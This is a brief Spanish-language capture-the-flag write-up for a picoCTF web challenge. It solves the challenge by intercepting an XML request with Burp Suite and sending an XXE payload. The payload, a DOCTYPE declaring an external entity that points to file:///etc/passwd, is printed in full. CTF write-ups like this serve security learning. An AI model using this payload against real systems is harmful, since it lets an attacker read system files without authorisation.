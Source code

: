 ### Descripcion
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?[Web Portal](http://saturn.picoctf.net:58247/)
### Solucion
La hint, nos decia que vieramos sobre las injecciones XXE
Entonces interceptamos con Burpsuite
![[Pasted image 20250403123755.png]]
Y vemos que hay un xml, y buscamos un payload en payload all the things que es el siguiente payload
```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY test SYSTEM 'file:///etc/passwd'>]>
<data><ID>
&test;
</ID></data>
```
![[Pasted image 20250403124543.png]]
### Tags
#xxe 
